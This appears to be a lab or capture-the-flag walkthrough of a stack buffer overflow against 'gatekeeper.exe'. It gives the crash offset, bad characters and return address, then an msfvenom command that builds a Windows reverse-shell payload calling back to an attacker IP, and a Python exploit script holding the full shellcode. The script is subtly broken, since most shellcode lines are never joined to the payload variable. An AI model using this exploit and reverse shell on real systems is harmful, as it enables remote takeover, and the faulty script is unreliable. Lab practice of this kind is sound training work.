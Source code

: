 ### Results

1. **Crashing with `5000` bytes flooding at once**

2. **Crashing with an exact offset of `146` bytes**

3. **Controlling EIP adding `BBBB` / `42424242` at offset `146` +1+2+3+4 bytes**

4. **Badchars found: `\x00\x0A`**

5. **Found jump point `JPM ESP` = 080414C3 to little indian = `retn=\xC3\x14\x04\x08` ** 

    - NOTE: Restart `Immunity Debugger` + `gatekeeper.exe` (`CTRL + F12`)

---

### 5. Generate the final Payload

- Run the following `msfvenom` command on Kali, using your Kali `VPN IP` as the `LHOST` and updating the `-b` option with all the badchars you identified (including `\x00`):

    - `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.66 LPORT=4444 EXITFUNC=thread -b "\x00\x0A" -f c`
    
    - ![image](https://user-images.githubusercontent.com/94720207/169708167-174b23c6-09f2-423a-a713-8d16a0003608.png)
 
- Copy the generated `C code strings` and integrate them into a new modifies python script called `overflow_gatekeeper_step567_Final_Payload.py` script `payload` variable

    - Create: `overflow_gatekeeper_step567_Final_Payload.py`:

```python
import socket

ip = "192.168.1.100"
port = 31337

prefix = ""
offset = 146
overflow = "A" * offset
retn = "\xC3\x14\x04\x08"
padding = ""
payload = "\xba\x1c\xf2\x98\x43\xda\xc5\xd9\x74\x24\xf4\x5e\x31\xc9\xb1"
"\x52\x31\x56\x12\x03\x56\x12\x83\xda\xf6\x7a\xb6\x1e\x1e\xf8"
"\x39\xde\xdf\x9d\xb0\x3b\xee\x9d\xa7\x48\x41\x2e\xa3\x1c\x6e"
"\xc5\xe1\xb4\xe5\xab\x2d\xbb\x4e\x01\x08\xf2\x4f\x3a\x68\x95"
"\xd3\x41\xbd\x75\xed\x89\xb0\x74\x2a\xf7\x39\x24\xe3\x73\xef"
"\xd8\x80\xce\x2c\x53\xda\xdf\x34\x80\xab\xde\x15\x17\xa7\xb8"
"\xb5\x96\x64\xb1\xff\x80\x69\xfc\xb6\x3b\x59\x8a\x48\xed\x93"
"\x73\xe6\xd0\x1b\x86\xf6\x15\x9b\x79\x8d\x6f\xdf\x04\x96\xb4"
"\x9d\xd2\x13\x2e\x05\x90\x84\x8a\xb7\x75\x52\x59\xbb\x32\x10"
"\x05\xd8\xc5\xf5\x3e\xe4\x4e\xf8\x90\x6c\x14\xdf\x34\x34\xce"
"\x7e\x6d\x90\xa1\x7f\x6d\x7b\x1d\xda\xe6\x96\x4a\x57\xa5\xfe"
"\xbf\x5a\x55\xff\xd7\xed\x26\xcd\x78\x46\xa0\x7d\xf0\x40\x37"
"\x81\x2b\x34\xa7\x7c\xd4\x45\xee\xba\x80\x15\x98\x6b\xa9\xfd"
"\x58\x93\x7c\x51\x08\x3b\x2f\x12\xf8\xfb\x9f\xfa\x12\xf4\xc0"
"\x1b\x1d\xde\x68\xb1\xe4\x89\x56\xee\xe7\x0b\x3f\xed\xe7\x9a"
"\xe3\x78\x01\xf6\x0b\x2d\x9a\x6f\xb5\x74\x50\x11\x3a\xa3\x1d"
"\x11\xb0\x40\xe2\xdc\x31\x2c\xf0\x89\xb1\x7b\xaa\x1c\xcd\x51"
"\xc2\xc3\x5c\x3e\x12\x8d\x7c\xe9\x45\xda\xb3\xe0\x03\xf6\xea"
"\x5a\x31\x0b\x6a\xa4\xf1\xd0\x4f\x2b\xf8\x95\xf4\x0f\xea\x63"
"\xf4\x0b\x5e\x3c\xa3\xc5\x08\xfa\x1d\xa4\xe2\x54\xf1\x6e\x62"
"\x20\x39\xb1\xf4\x2d\x14\x47\x18\x9f\xc1\x1e\x27\x10\x86\x96"
"\x50\x4c\x36\x58\x8b\xd4\x56\xbb\x19\x21\xff\x62\xc8\x88\x62"
"\x95\x27\xce\x9a\x16\xcd\xaf\x58\x06\xa4\xaa\x25\x80\x55\xc7"
"\x36\x65\x59\x74\x36\xac"
postfix = ""
```